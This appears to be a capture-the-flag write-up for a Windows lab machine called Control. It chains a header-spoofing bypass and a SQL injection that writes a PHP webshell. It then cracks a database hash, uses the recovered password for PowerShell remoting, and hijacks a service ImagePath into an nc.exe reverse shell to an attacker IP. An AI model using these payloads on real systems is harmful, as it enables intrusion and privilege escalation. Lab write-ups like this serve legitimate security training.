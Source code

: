 # Control

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (164) (4).png" alt=""><figcaption></figcaption></figure>

### X-Forwaded-For Bypass

Using `gobuster` we can find the directories:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

When trying to access the `admin.php` page, we get this error:

<figure><img src="../../../.gitbook/assets/image (41) (2).png" alt=""><figcaption></figcaption></figure>

Perhaps we can spoof the `X-Forwarded-For` header using an IP address. When checking the page sources of multiple pages, we can find this:

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

Appending the `X-Forwarded-For: 192.168.4.28` header, we can access the `admin.php` page.

### SQL Injection for Webshell

Within the `admin.php` page, we can find that there is an application that is able to search for products.

<figure><img src="../../../.gitbook/assets/image (10) (1) (6).png" alt=""><figcaption></figcaption></figure>

We can attempt SQL Injection easily and confirm there is an unsanitsed input being passed.

<figure><img src="../../../.gitbook/assets/image (1) (9).png" alt=""><figcaption></figcaption></figure>

With this, I attempted UNION Injection to find out how many columns there were. In total, there were 6.

We can write a webshell into the normal working webroot directory:

```sql
\' UNION SELECT '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 INTO OUTFILE 'C:\inetpub\wwwroot\shell.php'#
```

Then, we can check for RCE:

<figure><img src="../../../.gitbook/assets/image (39) (4).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MariaDB Credentials

Within the machine, we can find the other users that were present:

<figure><img src="../../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

So we are looking for credentials for Hector. Understanding that there was a MariaDB instance running on the machine, I checked the files that were related to that first.&#x20;

Within the `C:\MariaDB\mysql` folder, we can find hashes for a user:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

Alternatively, we could use the SQL Injection vulnerability to dump these credentials out. Anyways, we would find a hash for the Hector user. His hash can be cracked on CrackStation to give `l33th4x0rhector`.

Enumerating the privileges that Hector has, we also see that he's part of the Remote Management Group:

<figure><img src="../../../.gitbook/assets/image (4) (5) (3).png" alt=""><figcaption></figcaption></figure>

This means that we can remotely access Hector's account over WinRM. Since there was no WinRM port available for me to use `evil-winrm`, I opted for Remote Powershelling.

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CONTROL\Hector",$pass)
Invoke-Command -Computing localhost -ScriptBlock { whoami } -Credential $cred
```

We can use this to execute `nc.exe` to give us another reverse shell as Hector.

<figure><img src="../../../.gitbook/assets/image (3) (7).png" alt=""><figcaption></figcaption></figure>

### Powershell History

This part was a tad tricky. I ran a WinPEAS and it picked up on the Powershell history for Hector.

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

When running these commands, I get a load of text that I don't really understand:

<figure><img src="../../../.gitbook/assets/image (19) (4) (2).png" alt=""><figcaption></figcaption></figure>

Perhaps this was a clue to look into the ACLs and permissions Hector has.

### Service Registry Permissions

Picking up on the rest of WinPEAS output, we see that Hector has FullControl permissions over loads of services.

<figure><img src="../../../.gitbook/assets/image (26) (5).png" alt=""><figcaption></figcaption></figure>

FullControl permissions can be abused for forms of DLL Hijacking, or changing certain properties to execute scripts or files of our choosing.&#x20;

To exploit this, we need to find a service that satisfies 3 conditions:

* Is not started by default, and we need to manually start it
* Have FullControl permissions over it to alter its properties to execute scripts
* Run by `LocalSystem` to ensure that we run our scripts as the SYSTEM user.

I began enumeration for services that I could restart. I found a resource here that told us what specific permissions we needed:

{% embed url="http://woshub.com/set-permissions-on-windows-service/" %}

```
CC — SERVICE_QUERY_CONFIG (request service settings)
LC — SERVICE_QUERY_STATUS (service status polling)
SW — SERVICE_ENUMERATE_DEPENDENTS
LO — SERVICE_INTERROGATE
CR — SERVICE_USER_DEFINED_CONTROL
RC — READ_CONTROL
RP — SERVICE_START
WP — SERVICE_STOP
DT — SERVICE_PAUSE_CONTINUE
```

In this case, we need the `RP` permission to restart a service. To check whether a service is run by `LocalSystem`, we would have to refer to the `SERVICE_START_NAME` variable when using `sc.exe` to query the service. Lastly, we can refer to this table for the values of the `START_TYPE` variable to find a service that is started manually (3 is the value we are looking for):

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

When looking through the services that Hector had FullControl permissions over (via WinPEAS output), we find this one:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

This service certainly fits the conditions needed. We can use `sc.exe config` to modify the `binpath` variable to give us a reverse shell. However, the `sc.exe` method lept failing.

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

I tried the Powershell `Set-ItemProperty` method, and it worked better:

```powershell
Set-ItemProperty -path HKLM:\System\CurrentControlSet\services\wuauserv -name ImagePath -value "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 6666"
```

Afterwards, we can start the service and get a shell as the administrator. (I don't have screenshots of the administrator shell D:)
